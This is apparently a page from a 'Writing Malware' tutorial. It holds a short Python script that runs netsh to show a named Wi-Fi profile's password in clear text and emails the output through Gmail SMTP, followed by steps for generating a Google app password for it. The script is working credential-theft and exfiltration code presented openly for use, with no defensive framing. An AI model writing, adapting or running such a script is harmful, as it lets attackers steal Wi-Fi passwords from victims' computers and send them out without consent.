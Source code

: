`execute_and_report.py`

```python
#! /usr/bin/env python

import subprocess, smtplib

def send_mail(email, password, message):
    server = smtplib.SMTP("smtp.gmail.com", 587)
    server.starttls()
    server.login(email, password)
    server.sendmail(email, email, message)
    server.quit()

#This command extract the <wifi_name> password 
command = "netsh wlan show profile <wifi_name> key=clear"
result = subprocess.check_output(command, shell=True)
send_mail("<email_id>", "<app_pass>", result)

```

## #App password generation

Go to [`myaccount.google](http://myaccount.google) --> Security --> 2-Step Verification --> App passwords`

![Screenshot 2024-03-13 142909.png](Writing%20Malware%208807b30c1663449c9b571d0ecaf6eef5/Screenshot_2024-03-13_142909.png)
